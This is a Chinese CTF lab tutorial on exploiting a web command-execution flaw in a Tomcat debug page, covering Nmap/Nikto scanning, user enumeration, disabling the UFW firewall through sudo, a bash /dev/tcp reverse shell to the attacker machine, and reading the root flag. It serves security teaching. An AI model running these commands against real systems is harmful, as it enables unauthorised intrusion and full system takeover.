# CTF夺旗赛教程：P19：Web安全命令执行 🚩

## 概述
在本节课中，我们将学习Web安全中的命令执行漏洞。我们将通过一个实际的靶场环境，演示如何利用命令执行漏洞，最终获取系统root权限并取得flag值。课程内容涵盖信息探测、漏洞发现、权限提升以及获取flag的全过程。

## 命令执行漏洞原理
上一节我们概述了课程目标，本节中我们来看看命令执行漏洞产生的根本原因。

当Web应用程序需要调用外部程序处理内容时，会使用执行系统命令的函数。例如，在PHP语言中，常用的函数有 `system()`、`exec()`、`shell_exec()` 等。

如果应用程序将用户输入的数据直接拼接到系统命令中，并且没有进行充分的安全过滤，攻击者就可以注入恶意的系统命令。当用户可以控制这些命令执行函数中的参数时，就能将恶意命令注入到正常命令中，从而造成命令执行攻击。

**核心公式**：`用户可控输入 + 未过滤/过滤不严的命令执行函数 = 命令执行漏洞`

## 实验环境搭建
了解了漏洞原理后，我们需要搭建实验环境进行实战演练。



*   **攻击机**：Kali Linux
    *   IP地址：`192.168.1.105`
*   **靶机**：Linux系统
    *   IP地址：`192.168.1.103`

在CTF比赛中，我们的最终目标是获取靶机上的flag值以获得分数。

## 第一步：信息探测
任何渗透测试的第一步都是信息收集。我们需要探测靶机开放的服务及其版本信息。

以下是信息探测的常用命令：

*   **使用Nmap扫描服务版本**：
    ```bash
    nmap -sV 192.168.1.103
    ```
    这条命令会向靶机发送数据包，分析响应以确定开放端口的服务类型和版本。

*   **使用Nmap进行综合扫描**：
    ```bash
    nmap -A -v -T4 192.168.1.103
    ```
    参数 `-A` 启用操作系统和版本检测、脚本扫描等高级功能。`-T4` 指定较快的扫描速度。

*   **使用Nikto探测Web服务**：
    ```bash
    nikto -h http://192.168.1.103:8080
    ```
    Nikto是一款专门针对Web服务器的扫描器，可以发现潜在的危险文件、配置错误和已知漏洞。

扫描完成后，我们发现靶机在8080端口运行着Tomcat服务，并且存在一个名为 `test.jsp` 的文件。Nikto提示该文件可能“非常有趣”。



## 第二步：漏洞发现与初步利用
根据扫描结果，我们开始深入挖掘可利用的信息。

首先，在浏览器中访问Tomcat默认页面 (`http://192.168.1.103:8080`) 和 `test.jsp` 页面 (`http://192.168.1.103:8080/test.jsp`)。



访问 `test.jsp` 页面时，页面提示这是一个调试页面，用于检测 `/tmp` 目录的变化。它举例说明，输入命令 `ls -l /tmp` 可以查看目录信息。

我们在输入框中尝试执行 `ls -l /tmp`，服务器成功返回了 `/tmp` 目录的列表。这证实了该页面存在命令执行漏洞，我们可以通过它向服务器发送系统命令。

## 第三步：深入探测系统信息
确认漏洞存在后，我们需要收集更多关于靶机系统的信息，为后续的权限提升做准备。

以下是用于深入探测的命令：

*   **查看详细目录列表**：
    ```bash
    ls -alh /tmp
    ```
    参数 `-a` 显示所有文件（包括隐藏文件），`-l` 以长格式显示详细信息，`-h` 以易读格式显示文件大小。

*   **查看系统用户**：
    ```bash
    ls -alh /home
    ```
    这条命令列出了 `/home` 目录下的所有用户文件夹。我们发现存在用户 `bill`。

*   **查看特定用户目录**：
    ```bash
    ls -alh /home/bill
    ```
    我们发现 `bill` 用户目录下存在 `.ssh` 文件夹，说明该用户可能允许SSH登录。同时，提示信息表明 `bill` 用户可能拥有 `sudo` 权限。



*   **查看系统信息**：
    ```bash
    uname -a
    ```
    这条命令显示系统内核版本、操作系统等信息。我们得知靶机系统是Ubuntu。



## 第四步：利用SSH与sudo提升权限
上一节我们发现了用户 `bill` 可能拥有 `sudo` 权限，本节中我们来看看如何利用这一点。





在Linux中，如果用户配置了免密SSH登录本地主机，可以使用 `ssh user@localhost` 直接登录。结合 `sudo` 权限，可以执行高权限命令。



*   **检查sudo权限**：
    ```bash
    ssh bill@localhost sudo -l
    ```
    这条命令通过SSH本地登录，并列出 `bill` 用户允许以 `sudo` 执行的命令。

*   **关闭防火墙**：
    由于系统是Ubuntu，默认防火墙是UFW。为了避免后续操作被拦截，我们可以关闭它。
    ```bash
    ssh bill@localhost sudo ufw disable
    ```

## 第五步：获取反向Shell
为了更方便地控制靶机，我们通常需要获取一个交互式的Shell。这里介绍一种常见的方法：使用Netcat (`nc`) 获取反向Shell。



**攻击机操作**：
1.  在攻击机上监听一个端口（例如4444）。
    ```bash
    nc -lvp 4444
    ```



**靶机操作**：
2.  在存在命令执行漏洞的Web页面中，执行以下命令，将Shell反弹到攻击机。
    ```bash
    sudo bash -i >& /dev/tcp/192.168.1.105/4444 0>&1
    ```
    *   `bash -i`：启动一个交互式的bash。
    *   `>& /dev/tcp/攻击机IP/端口`：将标准输出和错误输出重定向到TCP连接。
    *   `0>&1`：将标准输入重定向到标准输出，从而建立双向通信。

命令执行后，攻击机的Netcat监听端口会接收到一个来自靶机的Shell连接。输入 `id` 命令，可以看到当前已是 `root` 权限。



## 第六步：寻找并获取Flag
获得root权限后，最后一步就是寻找flag。



在CTF比赛中，flag通常存放在只有root用户才能访问的目录中，例如 `/root`。

1.  在获取的反向Shell中，切换到 `/root` 目录：
    ```bash
    cd /root
    ```
2.  列出文件，通常会发现名为 `flag`、`flag.txt` 或类似的文件。
    ```bash
    ls
    ```
3.  使用 `cat` 命令读取flag文件内容：
    ```bash
    cat flag
    ```
    成功输出flag值，标志着本次渗透测试目标达成。

## 总结与拓展
本节课中，我们一起学习了Web命令执行漏洞的完整利用流程：



1.  **信息收集**：使用Nmap、Nikto等工具探测靶机信息。
2.  **漏洞发现**：通过测试找到存在命令注入的页面（`test.jsp`）。
3.  **信息深化**：利用漏洞执行系统命令，收集用户、权限等关键信息。
4.  **权限提升**：利用发现的SSH和`sudo`配置，将权限提升至root。
5.  **建立控制**：通过反向Shell获取一个稳定的、高权限的命令行控制通道。
6.  **达成目标**：定位并读取最终的flag文件。



**需要强调的是**：实际的CTF比赛或真实环境中的命令执行漏洞往往没有这么简单。通常会存在各种过滤和限制，需要运用命令拼接、编码绕过、空格替代等技巧。本节课提供的是一个理想化的入门案例，帮助大家理解漏洞利用的基本链条和思路。在后续的学习中，需要掌握更多的绕过技巧来应对复杂的防御措施。